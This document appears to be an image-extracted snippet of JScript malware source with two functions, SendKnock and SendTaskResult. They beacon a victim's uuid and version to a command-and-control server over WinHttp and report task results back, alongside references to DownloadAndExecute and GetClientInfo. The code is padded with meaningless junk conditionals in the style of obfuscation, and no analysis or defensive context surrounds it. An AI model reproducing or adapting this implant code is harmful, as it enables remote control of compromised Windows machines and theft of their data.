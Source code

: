 ```js
 function SendKnock()
 {
  var response;
  if(GetClientInfo== true){return};
  try
  {
   var WinHttpReq= new ActiveXObject("WinHttp.WinHttpRequest.5.1");
   var temp=WinHttpReq.Open("POST",server,false);
   if(DownloadAndExecute=== null){return};
   WinHttpReq.SetRequestHeader("Accept","application/json");
   WinHttpReq.SetRequestHeader("mode","knock");
   WinHttpReq.SetRequestHeader("uuid",clientInfo["uuid"]);
   WinHttpReq.SetRequestHeader("version",version);
   WinHttpReq.Send();
   WinHttpReq.WaitForResponse();
   response= WinHttpReq.ResponseText;
  }
  catch(objError)
  {
   if(!GetFilenameFromURL){ LoadJsonParser(null,null,null,1,0)};
   response= objError+ "\x0A";
   response+= "WinHTTP returned error: "+ (objError.number& 0xFFFF).toString()+ "\x0A\x0A";
   response+= objError.description
  };
  if(DoTasks== 0){SendTaskResult= 1;return};
  return response;
 }

 function SendTaskResult(taskID,result,details)
 {
  var response;
  try
  {
   var WinHttpReq= new ActiveXObject("WinHttp.WinHttpRequest.5.1");
   var temp=WinHttpReq.Open("POST",server,false);
   WinHttpReq.SetRequestHeader("Accept","application/json");
   WinHttpReq.SetRequestHeader("mode","task");
   if(!SendTaskResult){LoadJsonParser= 1;return}
   else {WinHttpReq.SetRequestHeader("uuid",clientInfo["uuid"])};
   WinHttpReq.SetRequestHeader("taskID",taskID);
   WinHttpReq.SetRequestHeader("result",result);
   WinHttpReq.SetRequestHeader("details",details);
   WinHttpReq.Send();
   WinHttpReq.WaitForResponse();
   response= WinHttpReq.ResponseText;
  }
  catch(objError)
  {
   response= objError+ "\x0A";
   response+= "WinHTTP returned error: "+ (objError.number& 0xFFFF).toString()+ "\x0A\x0A";
   response+= objError.description
  }
 }
```
